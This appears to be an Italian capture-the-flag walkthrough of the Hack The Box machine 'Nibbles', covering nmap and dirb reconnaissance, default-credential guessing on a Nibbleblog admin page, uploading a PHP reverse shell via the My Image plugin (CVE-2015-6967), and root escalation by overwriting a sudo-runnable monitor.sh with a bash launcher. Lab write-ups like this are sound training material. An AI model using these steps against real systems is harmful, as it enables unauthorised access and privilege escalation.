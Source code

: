 # Nibbbles

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.75
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 22**: OpenSSH 7.2p2
* **Porta 80**: Apache 2.4.18

```text
map scan report for 10.10.10.75
Host is up (0.072s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/19%OT=22%CT=1%CU=30464%PV=Y%DS=2%DC=I%G=Y%TM=650977F
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=105%GCD=1%ISR=10C%TI=Z%II=I%TS=8)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 22 OpenSSH 7.2p2

La vulnerabilità trovata:
  * OpenSSH 2.3 < 7.7 - Username Enumeration

Questa vulnerabilità ci permette di fare username enumeration [CVE-2018-15473](https://github.com/Sait-Nuri/CVE-2018-15473).

Non mi interessa utilizzare questa vulnerabilità per il momento, quindi proseguo.

### 2) Porta 80 Apache 2.4.18

Non trovo nulla di interessante.

### 3) Directory enumeration

Ispezionando la pagina http://10.10.10.75 trovo questo:

<p align="center">
  <img src="/Immagini/Linux-Box/Nibbles/nibbles-1.png" />
</p>

Quindi vado all'indirizzo http://10.10.10.75/nibbleblog:

<p align="center">
  <img src="/Immagini/Linux-Box/Nibbles/nibbles-2.png" />
</p>

Utilizzo il comando dirb, dal quale ottengo il seguente risultato:

```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Sep 19 06:38:41 2023
URL_BASE: http://10.10.10.75/nibbleblog/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.75/nibbleblog/ ----
==> DIRECTORY: http://10.10.10.75/nibbleblog/admin/                                                                 
+ http://10.10.10.75/nibbleblog/admin.php (CODE:200|SIZE:1401)                                                      
==> DIRECTORY: http://10.10.10.75/nibbleblog/content/                                                               
+ http://10.10.10.75/nibbleblog/index.php (CODE:200|SIZE:2987)                                                      
==> DIRECTORY: http://10.10.10.75/nibbleblog/languages/                                                             
==> DIRECTORY: http://10.10.10.75/nibbleblog/plugins/                                                               
+ http://10.10.10.75/nibbleblog/README (CODE:200|SIZE:4628)                                                         
==> DIRECTORY: http://10.10.10.75/nibbleblog/themes/                                                                

---- Entering directory: http://10.10.10.75/nibbleblog/admin/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.75/nibbleblog/content/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.75/nibbleblog/languages/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.75/nibbleblog/plugins/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.75/nibbleblog/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Tue Sep 19 06:44:33 2023
DOWNLOADED: 4612 - FOUND: 3
```

Per prima cosa vad sulla pagina http://10.10.10.75/nibbleblog/README, dalla quale riesco a risalire alla versione di Nibbleblog utilizzata:

```text
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

Site: http://www.nibbleblog.com
Blog: http://blog.nibbleblog.com
Help & Support: http://forum.nibbleblog.com
Documentation: http://docs.nibbleblog.com

===== Social =====
* Twitter: http://twitter.com/nibbleblog
* Facebook: http://www.facebook.com/nibbleblog
* Google+: http://google.com/+nibbleblog

===== System Requirements =====
* PHP v5.2 or higher
* PHP module - DOM
* PHP module - SimpleXML
* PHP module - GD
* Directory â€œcontentâ€ writable by Apache/PHP

Optionals requirements

* PHP module - Mcrypt
...
```

Da una semplice ricerca scopro che esiste una vulnerabilità che posso sfruttare: [Nibbleblog 4.0.3 - Arbitrary File Upload (CVE-2015-6967)](https://github.com/dix0nym/CVE-2015-6967)

Vado sulla pagina http://10.10.10.75/nibbleblog/admin.php e provo ad entrare con username e password banali:
  * administrator, administrator
  * admin, admin
  * administrator, nibbles
  * admin, nibbles (**BOOM!!!**)

<p align="center">
  <img src="/Immagini/Linux-Box/Nibbles/nibbles-3.png" />
</p>

Dopodichè vado nella sezione Plugin > My image e carico il file php (scaricato precedentemente) modificando l'indirizzo ip e la porta al suo interno (con quella del listener che metto in ascolto sulla mia macchina):

<p align="center">
  <img src="/Immagini/Linux-Box/Nibbles/nibbles-4.png" />
</p>

Vado all'indirizzo dove è stata appena caricata l'immagine per avviare la reverse shell.

```text
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

**Ottengo così il primo flag!**

<p align="center">
  <img src="/Immagini/Linux-Box/Nibbles/nibbles-5.png" />
</p>

## Privilege Escalation

Dall'immagine precedente si può notare che è l'utente nibbler può eseguire monitor.sh pur non possedendo la password root.

Quindi modifico il file nel seguente modo:

```text
rm monitor.sh
touch monitor.sh
echo "#!/bin/sh" >> monitor.sh
echo "bash" >> monitor.sh
chmod +x monitor.sh
```

**Eseguendolo ottengo il contenuto di root.txt**

<p align="center">
  <img src="/Immagini/Linux-Box/Nibbles/nibbles-6.png" />
</p>
